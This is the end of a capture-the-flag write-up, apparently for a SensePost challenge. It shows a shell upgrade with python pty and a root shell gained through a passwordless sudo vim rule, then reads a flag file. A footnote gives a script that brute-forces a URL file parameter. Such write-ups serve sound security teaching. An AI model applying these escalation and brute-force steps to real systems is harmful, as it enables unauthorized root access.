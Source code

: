 ```
sudo -l

www-data ALL = (root) NOPASSWD: /usr/bin/vim
```

Well, how convenient.

First we'll upgrade our shell to an interactive one.

```python -c 'import pty; pty.spawn("/bin/bash");'```

Then we can use vim to grab a root shell.

```
sudo vim -c :!sh

whoami
root

cat /root/flag4.txt

SP-825b4db3b321b46add5e88c4c007cd73
```

Guess that's the end. Thanks SensePost.

----------------------------------------

## Footnote:

Here's the script I wrote to brute the HHF parameter on the URL `https://challenge.sensepost.ninja/firstflag.php?file=completedHHF` when I thought it was a little UID. 

```
import requests
import string
import itertools

alphabets = list(string.ascii_uppercase)
combos = [''.join(i) for i in itertools.product(alphabets, repeat = 3)]

i=1
for c in ['HHF'] + combos:
    if i % 10 == 0:
        print str(i) + " / " + str(len(combos) )
    URL = "https://challenge.sensepost.ninja/firstflag.php?file=completed" + c
    r = requests.get(url = URL)
    if r.status_code != 200 or len(r.text) > 0:
        print "Check out " + c
    i+=1
```

